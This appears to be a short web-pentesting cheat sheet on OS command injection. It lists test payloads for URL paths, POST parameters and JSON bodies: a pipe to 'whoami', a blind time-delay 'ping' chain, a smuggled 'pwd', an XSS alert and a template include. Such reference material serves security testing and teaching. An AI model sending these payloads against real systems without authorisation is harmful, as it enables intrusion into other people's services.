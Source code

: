 ```yaml
---
title: OS Command Injection
desc: 
tags: [Burp, Command Injection, Web]
alts: []
render_with_liquid: false
---
```


## Change URL Path/Parameters

```
/api/cmd/whoami
/command/whoami

/?cmd=whoami
```

<br />

## Change POST Parameters

1. **Basic Command Injection**

    ```html
    productId=1&stockId=1|whoami
    ```

2. **Blind Command Injection (Time Delay)**

    Using **"ping"** command.

    ```html
    name=michael&email=michael@example.com||ping+-c+10+127.0.0.1||&message=hello
    ```

3. **JSON Injection**

    ```json
    { "username": "\"; pwd \"" }
    {"name":"<script>alert(1)</script>", "email":"victim@vulnerable.com"}
    {"name": "admin", "content": "{{template: ./admin.php}}"}
    ```